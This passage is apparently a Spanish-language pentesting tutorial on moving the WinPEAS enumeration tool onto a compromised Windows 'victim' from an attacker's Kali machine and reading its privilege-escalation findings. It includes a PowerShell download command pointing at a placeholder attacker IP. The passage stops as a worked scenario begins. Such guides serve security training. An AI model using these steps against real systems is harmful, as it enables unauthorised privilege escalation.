 #### ✅ Opción 2: Desde Linux (si tienes shell reversa en Windows)

En tu máquina atacante (Linux/Kali), puedes montar un servidor web:

```bash
python3 -m http.server 8000
```

Y en la máquina Windows (víctima):

```powershell
Invoke-WebRequest http://<IP-ATACANTE>:8000/winPEASany.exe -OutFile winpeas.exe
```

> Reemplaza `<IP-ATACANTE>` con la IP real de tu máquina.

---

### 🧪 Cómo usar WinPEAS

#### 🖥️ 1. Abre una terminal en la máquina Windows (cmd o PowerShell)

```cmd
winpeas.exe
```

O si descargaste con otro nombre:

```cmd
.\winpeas.exe
```

#### ⚙️ WinPEAS comenzará a escanear:

Verás líneas de salida como:

```
[+] Interesting Services - Can Start
[+] Unquoted Service Paths
[+] AlwaysInstallElevated = 1
[+] Credentials found in registry
...
```

Colores:

- 🟢 Verde: información general
- 🟡 Amarillo: posible vector
- 🔴 Rojo: alta probabilidad de escalada de privilegios

---

### 🧪 Ejemplo completo funcional

#### 🧾 Escenario

Tienes acceso limitado a una máquina Windows como el usuario `usuario1`, y subes `winpeas.exe`.
